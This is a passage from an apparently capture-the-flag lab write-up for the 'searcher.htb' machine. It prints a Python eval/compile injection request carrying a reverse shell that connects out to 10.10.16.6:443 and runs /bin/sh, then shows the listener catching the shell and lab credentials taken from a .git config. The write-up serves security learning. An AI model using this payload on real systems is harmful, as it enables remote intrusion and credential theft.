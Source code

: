 The compile() function is required to be used in the statement because eval() only accepts dictonary objects. Therefore wrapping the payload in compile() creates an object that can be executed with eval().

The rest of the reverse shell payload is just a generic python reverse shell that can generated with Reverse Shell Generator [here](https://www.revshells.com/)

The request we will sending with burpsuite to a reverse shell is below.
```
POST /search HTTP/1.1
Host: searcher.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://searcher.htb/
Content-Type: application/x-www-form-urlencoded
Content-Length: 315
Origin: http://searcher.htb
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

engine=Amazon&query=heythere'%2beval(compile('for%20x%20in%20range(1)%3a%5cn%20import%20time%5cn%20import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.6",443));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'%2c'a'%2c'single'))%2b'
```

Upon sending the request to the server, we see the following.
```go
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.129.204.222] 48106
/bin/sh: 0: can't access tty; job control turned off
```

In the web servers root directory we find a .git directory with a config file that contains credentials for a user named cody.
```python
$ cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

We can also see a url which leads to a self hosted gitea service and the subdomain its hosted on.

